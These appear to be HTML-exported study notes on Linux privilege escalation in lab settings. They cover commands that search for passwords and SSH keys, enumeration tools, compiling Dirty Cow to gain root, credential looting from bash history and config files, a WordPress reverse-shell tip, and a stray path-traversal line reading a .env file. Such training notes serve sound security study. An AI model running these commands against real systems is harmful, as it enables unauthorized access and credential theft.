<ul class="c8 lst-kix_list_134-0 start"><li class="c0 c5 li-bullet-0">We can also search for passwords with the following command:</li></ul>
TCM@debian:~$ locate password | more

<ul class="c8 lst-kix_list_135-0 start"><li class="c0 c5 li-bullet-0">We could even search for passwords with the following command:</li></ul>
TCM@debian:~$ locate pass | more

<ul class="c8 lst-kix_list_136-0 start"><li class="c0 c5 li-bullet-0">We could also search for passwords with the following command:</li></ul>
TCM@debian:~$ locate pwd | more

<ul class="c8 lst-kix_list_137-0 start"><li class="c0 c5 li-bullet-0">We could also search for ssh keys with the following command:</li></ul>
TCM@debian:~$ find / -name id_rsa 2&gt; /dev/null



<ul class="c8 lst-kix_list_138-0 start"><li class="c0 c5 li-bullet-0">We could also search for ssh keys with the following command:</li></ul>
TCM@debian:~$ find / -name authorized_keys 2&gt; /dev/null



<ol class="c8 lst-kix_list_130-0" start="9"><li class="c0 c5 li-bullet-0">Automated Tools for Enumeration:</li></ol>

<ul class="c8 lst-kix_list_139-0 start"><li class="c0 c5 li-bullet-0">LinPEAS Tool: <a class="c6" href="https://www.google.com/url?q=https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS&amp;sa=D&amp;source=editors&amp;ust=1699590511523021&amp;usg=AOvVaw0rZzHHdrV08i-BanzPTSRm">https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS</a></li><li class="c0 c5 li-bullet-0">WinPEAS: <a class="c6" href="https://www.google.com/url?q=https://github.com/carlospolop/PEASS-ng&amp;sa=D&amp;source=editors&amp;ust=1699590511523569&amp;usg=AOvVaw05U-jjZT2kfEo4DuZ-3Db7">https://github.com/carlospolop/PEASS-ng</a></li><li class="c0 c5 li-bullet-0">LinEnum: <a class="c6" href="https://www.google.com/url?q=https://github.com/rebootuser/LinEnum&amp;sa=D&amp;source=editors&amp;ust=1699590511523999&amp;usg=AOvVaw332cBxCeQcDfOJT0vQcPgd">https://github.com/rebootuser/LinEnum</a></li><li class="c0 c5 li-bullet-0">Linux Exploit Suggester: <a class="c6" href="https://www.google.com/url?q=https://github.com/The-Z-Labs/linux-exploit-suggester&amp;sa=D&amp;source=editors&amp;ust=1699590511524403&amp;usg=AOvVaw0wlWaIrHhUWsmmfxo_pnJk">https://github.com/The-Z-Labs/linux-exploit-suggester</a></li><li class="c0 c5 li-bullet-0">Linux Priv Checker: <a class="c6" href="https://www.google.com/url?q=https://github.com/sleventyeleven/linuxprivchecker&amp;sa=D&amp;source=editors&amp;ust=1699590511524843&amp;usg=AOvVaw0Fr916f3npBjLRXdhiBmUE">https://github.com/sleventyeleven/linuxprivchecker</a></li></ul>

<ol class="c8 lst-kix_list_130-0" start="10"><li class="c0 c5 li-bullet-0">Exploring Automated Tools for Enumeration:</li></ol>

<ul class="c8 lst-kix_list_139-0"><li class="c0 c5 li-bullet-0">LinPEAS Tool: <a class="c6" href="https://www.google.com/url?q=https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS&amp;sa=D&amp;source=editors&amp;ust=1699590511525425&amp;usg=AOvVaw1DRbXuAdeFynVQY7s4KzRc">https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS</a></li></ul>


<ul class="c8 lst-kix_list_140-0 start"><li class="c0 c5 li-bullet-0">To run LinPEAS, type: TCM@debian:~/tools/linpeas$ ./linpeas.sh</li></ul>


-You can begin by going over any yellow or red findings, below is one example:



---------------------------------------------

<ul class="c8 lst-kix_list_43-0"><li class="c0 li-bullet-0">LinPEAS:</li></ul>

<ul class="c8 lst-kix_list_141-0 start"><li class="c0 c5 li-bullet-0">Let&rsquo;s run LinPEAS against our HackTheBox machine, let&rsquo;s download the LinPEAS.sh script, and save it locally so that we can point it to run at whatever we want (there may be a way to run it differently, I want keep moving things along and not go down too many irrelevant rabbit holes!). &nbsp;So let&rsquo;s navigate to the LinPEAS GitHub page from inside our Kali box: <a class="c6" href="https://www.google.com/url?q=https://github.com/carlospolop/PEASS-ng&amp;sa=D&amp;source=editors&amp;ust=1699590511526424&amp;usg=AOvVaw2uUP3vtSvYf6qcVlYnAOSb">https://github.com/carlospolop/PEASS-ng</a></li></ul>

<ul class="c8 lst-kix_list_142-0 start"><li class="c0 c5 li-bullet-0">Next, to select the LinPEAS.sh script for download, choose &ldquo;linPEAS&rdquo;:</li></ul>

<ul class="c8 lst-kix_list_143-0 start"><li class="c0 c5 li-bullet-0">Next, choose &ldquo;linpeas.sh&rdquo;:</li></ul>

<ul class="c8 lst-kix_list_144-0 start"><li class="c15 c5 li-bullet-0">Next, choose &ldquo;Raw&rdquo;:</li></ul>


<ul class="c8 lst-kix_list_145-0 start"><li class="c15 c5 li-bullet-0">After you choose Raw, right-click and &ldquo;Select-All&rdquo;, then paste into Kali&rsquo;s &ldquo;MousePad&rdquo; text editor (or any text editor), and choose &ldquo;Save As&rdquo;:</li></ul>

<ul class="c8 lst-kix_list_146-0 start"><li class="c15 c5 li-bullet-0">You want to make sure before you actually save to change the default &ldquo;Save As&rdquo; from &ldquo;Text Files&rdquo; to &ldquo;All Files&rdquo; because you are going to append with a shell extension so we can easily run the script. &nbsp;Name the file &ldquo;linpeas.sh&rdquo;, and I like saving things right onto my Desktop so that I can quickly find them. Our file should look like this right before we hit &ldquo;Save&rdquo;:</li></ul>

<ul class="c8 lst-kix_list_146-0"><li class="c15 c5 li-bullet-0">Next, just hit the &ldquo;x&rdquo; box and close the script. &nbsp;It can sit on the Desktop until we need it.:</li></ul>
recyclops file ../hubot/.env

---------------------------------------------

<ul class="c8 lst-kix_list_147-0 start"><li class="c0 c5 li-bullet-0">LinEum Tool: <a class="c6" href="https://www.google.com/url?q=https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS&amp;sa=D&amp;source=editors&amp;ust=1699590511528331&amp;usg=AOvVaw0SR6JtCs1XdJfLGCE0XNiV">https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS</a></li></ul>


<ul class="c8 lst-kix_list_148-0 start"><li class="c0 c5 li-bullet-0">To run LinEnum, type: TCM@debian:~/tools/linenum$ ./linenum.sh</li></ul>



-You can begin by going over any yellow or red findings, below is one example:


<ul class="c8 lst-kix_list_149-0 start"><li class="c0 c5 li-bullet-0">Linux Exploit Suggester: <a class="c6" href="https://www.google.com/url?q=https://github.com/The-Z-Labs/linux-exploit-suggester&amp;sa=D&amp;source=editors&amp;ust=1699590511529212&amp;usg=AOvVaw23hBwIwVPRSrC9m0RWdFZF">https://github.com/The-Z-Labs/linux-exploit-suggester</a></li></ul>

<ul class="c8 lst-kix_list_150-0 start"><li class="c0 c5 li-bullet-0">To run Linux Exploit Suggester, type: TCM@debian:~/tools/linux-exploit-suggester$ ./linux-exploit-suggester.sh</li></ul>



-You can begin by going over any yellow or red findings, below is one example:



<ol class="c8 lst-kix_list_151-0 start" start="11"><li class="c0 c5 li-bullet-0">Escalation via Kernel Exploits:</li></ol>

<ul class="c8 lst-kix_list_152-0 start"><li class="c0 c5 li-bullet-0">Remember this from earlier? &ldquo;uname -a&rdquo; will tell us what Kernel the machine is running, which will in turn help us search for exploits against that box:</li></ul>


<ul class="c8 lst-kix_list_152-0"><li class="c0 c5 li-bullet-0">We can just copy and pasta the Linux Debian version:</li></ul>


<ul class="c8 lst-kix_list_152-0"><li class="c0 c5 li-bullet-0">Then we can plug that into Google and see if there are any exploits/vulns against it:</li></ul>


<ul class="c8 lst-kix_list_152-0"><li class="c0 c5 li-bullet-0">The &ldquo;Dirty Cow&rdquo; exploit looks promising:</li></ul>



-You may recall when we rean Linux Exploit Suggester, it also listed &ldquo;Dirty Cow&rdquo;:



-You may also remember seeing something called &ldquo;Dirty Cow&rdquo; in our &ldquo;tools&rdquo; folder earlier:



-First we need to compile it before we can run it, so we can type the following which outputs a compiled version via gcc, to a file called &ldquo;cow&rdquo;:

TCM@debian:~/tools/dirtycow$ gcc -pthread c0w.c -o cow



-Now if we do an &ldquo;ls&rdquo;, we see it&rsquo;s sitting in there compiled:



-Now let&rsquo;s do a quick &ldquo;id&rdquo; and you can see we&rsquo;re the user TCM:



-Now let&rsquo;s run our exploit:



-After running, we see it has overwritten our password:



-So now if we type the &ldquo;passwd&rdquo; command followed by &ldquo;id&rdquo;, we see that we have become root:


<ol class="c8 lst-kix_list_153-0 start" start="12"><li class="c0 c5 li-bullet-0">Escalation via Stored Passwords:</li></ol>

<ul class="c8 lst-kix_list_154-0 start"><li class="c0 c5 li-bullet-0">A good first step in our methodology is to try the &ldquo;history&rdquo; command. You may or may not have access to run it, but if you do, it will behave as such:</li></ul>
TCM@debian:~$ history

(partial listing shown)



-If you look closely, you can see we have a MySQL password that someone typed (Note that the &ndash;u stands for user, and the &ndash;p for password, so the actual user is &ldquo;root&rdquo; and password is &ldquo;password123&rdquo;:



-There are also directories that were created, as well as permissions given:





-We can also use &ldquo;grep&rdquo; alongside our &ldquo;history&rdquo; command, which might bring things to light without so much noise, but it&rsquo;s actually recommended that you don&rsquo;t shorten the history because you could miss things. But, you could try that too if you&rsquo;re in a really big hurry:

TCM@debian:~$ history | grep pass



<ul class="c8 lst-kix_list_155-0 start"><li class="c0 c5 li-bullet-0">Next, we can type &ldquo;ls -la&rdquo; which will show us the hidden files and folders, and you can see hidden there is the bash history:</li></ul>

TCM@debian:~$ ls -la



-If you cat the bash history out, you can see the following:

TCM@debian:~$ cat .bash_history

(partial listing shown)



-So now we can switch user &ldquo;su&rdquo; and try those newfound creds...and we are root!:



<ul class="c8 lst-kix_list_156-0 start"><li class="c0 c5 li-bullet-0">Looting for Passwords:</li></ul>

<ol class="c8 lst-kix_list_157-0 start" start="1"><li class="c0 c5 li-bullet-0">Go to Payload All The Things:</li></ol>

<a class="c6" href="https://www.google.com/url?q=https://github.com/swisskyrepo/PayloadsAllTheThings&amp;sa=D&amp;source=editors&amp;ust=1699590511539399&amp;usg=AOvVaw1qjkt1MHZq4QaPpwr4jrsV">https://github.com/swisskyrepo/PayloadsAllTheThings</a>

OR

<a class="c6" href="https://www.google.com/url?q=https://swisskyrepo.github.io/PayloadsAllTheThings&amp;sa=D&amp;source=editors&amp;ust=1699590511540417&amp;usg=AOvVaw3-3RU09DWTOBs58-Hs6Tt9">https://swisskyrepo.github.io/PayloadsAllTheThings</a>



<ol class="c8 lst-kix_list_157-0" start="2"><li class="c0 c5 li-bullet-0">Scroll down the page and select &ldquo;Linux Privilege Escalation&rdquo;:</li></ol>
<a class="c6" href="https://www.google.com/url?q=https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%2520and%2520Resources/Linux%2520-%2520Privilege%2520Escalation.md&amp;sa=D&amp;source=editors&amp;ust=1699590511541608&amp;usg=AOvVaw2xAK_mHGF4O1RhRZdwNtsG">https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md</a>


<ol class="c8 lst-kix_list_157-0" start="3"><li class="c0 c5 li-bullet-0">Next, choose &ldquo;Looting for Passwords&rdquo;:</li></ol>

<a class="c6" href="https://www.google.com/url?q=https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%2520and%2520Resources/Linux%2520-%2520Privilege%2520Escalation.md%23looting-for-passwords&amp;sa=D&amp;source=editors&amp;ust=1699590511542366&amp;usg=AOvVaw3rXCI3GCGFuQQ6Z8uEGVMN">https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#looting-for-passwords</a>


<ol class="c8 lst-kix_list_157-0" start="4"><li class="c0 c5 li-bullet-0">This is where we got our earlier script for our colored grep search, but we can see there is a second command, a &ldquo;find&rdquo; command which runs a search for the directory that you are in:</li></ol>

<ul class="c8 lst-kix_list_158-0 start"><li class="c0 c5 li-bullet-0">grep --color=auto -rnw &#39;/&#39; -ie &quot;PASSWORD&quot; --color=always 2&gt; /dev/null</li><li class="c0 c5 li-bullet-0">find . -type f -exec grep -i -I &quot;PASSWORD&quot; {} /dev/null \;</li></ul>

<ol class="c8 lst-kix_list_157-0" start="5"><li class="c0 c5 li-bullet-0">Let&rsquo;s run that second &ldquo;find&rdquo; command which will search our current directory for the term &ldquo;password&rdquo;::</li></ol>

TCM@debian:~$ find . -type f -exec grep -i -I &quot;PASSWORD&quot; {} /dev/null \;



-Toward the very bottom of its run, we can see that same username and password we found earlier, but we can also see another password, sitting inside of a hidden config file in our current directory, which was the initial login to the box before the author changed it:



-Alright, so sometimes we need to look around at what&rsquo;s in front of us, right before our eyes. We don&rsquo;t always have to hunt and dig to find things, often we do, but once in a while, there&rsquo;s a shiny coin staring right at us. &nbsp;Let&rsquo;s go back to our Home folder. You can do that by just typing &ldquo;cd ~&rdquo;:

TCM@debian:~/tools$ cd ~



-Notice that we have this file called, &ldquo;myvpn.ovpn&rdquo;. Let&rsquo;s &ldquo;cat&rdquo; that out:

TCM@debian:~$ cat myvpn.ovpn



-We can see there&rsquo;s an &ldquo;auth-user-pass&quot;:



-If we &ldquo;cat&rdquo; that out, we can see that we have credentials left behind in memory. That user doesn&rsquo;t exist anymore, but the creds are still there:



<ul class="c8 lst-kix_list_159-0 start"><li class="c0 c5 li-bullet-0">EXIF Data:</li></ul><ul class="c8 lst-kix_list_160-0 start"><li class="c0 c5 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://exiftool.org/&amp;sa=D&amp;source=editors&amp;ust=1699590511545689&amp;usg=AOvVaw1FDWQBvFjGRNiWeJcU9tt2">https://exiftool.org</a></li><li class="c0 c5 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://exifmeta.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511546171&amp;usg=AOvVaw1Agudo9WF_fRUIaeoiNBek">https://exifmeta.com</a></li></ul>
-I like ExifTool by Phil Harvey: <a class="c6" href="https://www.google.com/url?q=https://exiftool.org./&amp;sa=D&amp;source=editors&amp;ust=1699590511546536&amp;usg=AOvVaw3AgB87-9b6eojzEGyYFIBa">https://exiftool.org.</a>&nbsp; It&rsquo;s simple to use, but if you are on Windows, don&rsquo;t forget to change the name of the EXE if you are going to use the syntax listed on Phil&rsquo;s page, for example:



...but the exe will actually be named &ldquo;exiftool(-k).exe&rdquo; by default when you unzip it, so if you were to run that, you would need the following syntax:

-For Linux, see below:

<ul class="c8 lst-kix_list_159-0"><li class="c0 c5 li-bullet-0">Missing Tools/Packages:</li></ul>

-If your Linux Distro doesn&rsquo;t have a tool installed that you want to use, you can perform the following actions to find it, and install it:

<ol class="c8 lst-kix_list_161-0 start" start="1"><li class="c0 c5 li-bullet-0">Using EXIFTOOL as an example, run the following command to see what package the tool comes from:</li></ol>

&#9492;&#9472;# dpkg -S exiftool


<ol class="c8 lst-kix_list_161-0" start="2"><li class="c0 c5 li-bullet-0">Next, copy-pasta the tool library name:</li></ol>

<ol class="c8 lst-kix_list_161-0" start="3"><li class="c0 c5 li-bullet-0">Now, type &ldquo;sudo apt install&rdquo; (without quotes) and then paste the library name you copied:</li></ol>

&#9492;&#9472;# sudo apt install libimage-exiftool-perl




<ol class="c8 lst-kix_list_161-0" start="4"><li class="c0 c5 li-bullet-0">&nbsp;After an install with minor errors, it can help to run an update:</li></ol>

&#9492;&#9472;# sudo apt update



<ol class="c8 lst-kix_list_161-0" start="5"><li class="c0 c5 li-bullet-0">After the update, you can then try re-installing the package with &ldquo;--fix-missing&quot;:</li></ol>

&#9492;&#9472;# sudo apt install libimage-exiftool-perl --fix-missing



<ul class="c8 lst-kix_list_162-0 start"><li class="c0 c5 li-bullet-0">Docker:</li></ul>

<ul class="c8 lst-kix_list_163-0 start"><li class="c0 c5 li-bullet-0">To see the apps that we have running with Docker Compose, simply type in: docker-compose ps</li></ul>

<ul class="c8 lst-kix_list_164-0 start"><li class="c0 c5 li-bullet-0">To stop what&rsquo;s running, we can type: docker-compose stop:</li></ul>


<ul class="c8 lst-kix_list_162-0"><li class="c0 c5 li-bullet-0">WordPress:</li></ul>

<ul class="c8 lst-kix_list_163-0"><li class="c0 c5 li-bullet-0">Tip: With WordPress, a routine way to get a shell is to go to the Theme Editor to customize a theme, then upload a reverse shell, but that only works with write privileges.</li></ul>

<ul class="c8 lst-kix_list_165-0 start"><li class="c0 c5 li-bullet-0">Pipx - pip install via Kali on the Way Out:</li></ul><ul class="c8 lst-kix_list_166-0 start"><li class="c0 c5 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.kali.org/blog/python-externally-managed&amp;sa=D&amp;source=editors&amp;ust=1699590511549998&amp;usg=AOvVaw1ueyf5icL3wdNdeLZUtryv">https://www.kali.org/blog/python-externally-managed</a></li><li class="c0 c5 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://pypa.github.io/pipx&amp;sa=D&amp;source=editors&amp;ust=1699590511550410&amp;usg=AOvVaw37tMoPn9bS0DEDGu_SPawI">https://pypa.github.io/pipx</a></li></ul>

<ul class="c8 lst-kix_list_167-0 start"><li class="c0 c5 li-bullet-0">Thursday, 06 July 2023</li></ul>
Pip install and Python&#39;s externally managed

TL;DR: pip install is on the way out. Installing Python packages must be done via APT, aka. Kali Linux&rsquo;s package manager. Python packages coming from other sources should be installed in virtual environments.

</li></ul>

</ul>
  </ul>

</body>
</html>

